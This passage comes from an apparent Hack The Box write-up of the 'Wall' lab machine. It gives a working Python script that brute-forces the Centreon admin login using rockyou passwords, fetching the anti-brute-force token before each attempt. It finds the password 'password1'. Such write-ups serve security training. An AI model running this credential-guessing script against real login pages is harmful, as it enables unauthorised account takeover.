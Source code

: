 We can guess that the user is admin. We load the 50 first enrties of rockyou
(`head -n 50 rockyou.txt > rockyou_50.txt`).

*Disclaimer: Bruteforce attacks are pretty uncommon on HTB. I asked on the
Discord if this was the right track before bruteforcing as it might distrupt the
box for other users.*

When looking at the requests we can see that there is a token protecting the
application against brute force. We wrote a simple python script to make a first
request, get the token and send a authentication request.

    :::Python
    import requests
    from bs4 import BeautifulSoup

    url = "http://10.10.10.157/centreon/index.php"

    def testPassword(password):
        s = requests.Session()
        r = s.get(url)

        soup = BeautifulSoup(r.text, 'html.parser')
        token = soup.find_all('input')[3].get('value')

        r = s.post(url, data = {'useralias':'admin', 'password': password, 'submitLogin':'Connect', 'centreon_token':token})
        if ('Your credentials are incorrect.' not in r.text):
            print(password)

    file = open("rockyou_50.txt")
    for password in file:
        testPassword(password.strip())

We launch the script and get the password: `password1`.  We can then login in
the centron interface.

![Centreon interface](/media/2019.12/wall_3.png){: .image-process-article-image}
